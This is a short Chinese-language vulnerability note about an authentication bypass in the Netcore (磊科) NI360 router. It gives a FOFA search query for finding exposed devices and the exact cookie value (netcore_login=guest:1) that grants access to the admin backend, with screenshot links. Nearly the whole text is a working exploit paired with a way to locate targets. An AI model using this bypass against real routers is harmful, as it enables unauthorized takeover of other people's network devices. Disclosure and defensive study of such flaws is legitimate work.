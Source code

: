 # 磊科 NI360路由器 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

```
磊科 NI360路由器
```

## FOFA

```
title="Netcore"
```

## 漏洞描述

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110949810.png)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110949667.png)